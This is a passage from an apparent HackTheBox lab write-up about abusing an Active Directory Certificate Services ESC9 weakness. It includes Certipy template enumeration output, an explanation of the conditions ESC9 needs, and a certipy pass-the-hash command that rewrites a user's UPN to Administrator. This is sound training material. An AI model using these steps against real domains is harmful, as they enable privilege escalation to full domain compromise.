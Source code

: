 ```test
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Property Principals       : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
```

## ESC9 Vulnerbility 

ESC9 is an enumeration/abuse pattern against Active Directory Certificate Services (AD CS) where an attacker who controls or can modify Certificate Authority (CA) objects, certificate templates, or enrollment permissions can obtain a certificate that effectively grants the attacker the privileges of a high-value account (for example a Domain Admin). Because certificates issued by a trusted enterprise CA are accepted for authentication (PKINIT, smartcard logon, or certain service authentications), abusing AD CS in this way is a reliable escalation path to full domain compromise.


ESC9 requires these conditions:

- ```StrongCertificateBindingEnforcement``` not set to `2` (default: `1`) or `CertificateMappingMethods` contains `UPN` flag
- Certificate contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag value`
- Certificate specifies any client authentication EKU


Also we need to have `GenericWrite` rights over another account
We just need to change our account `UPN` flag to `Administrator`, it gets conflict with legit `Administrator` account and after that I'll request certification for Administrator account.


To do this I'll use `certipy`

```text
certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator -dc-ip 10.10.11.41 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```
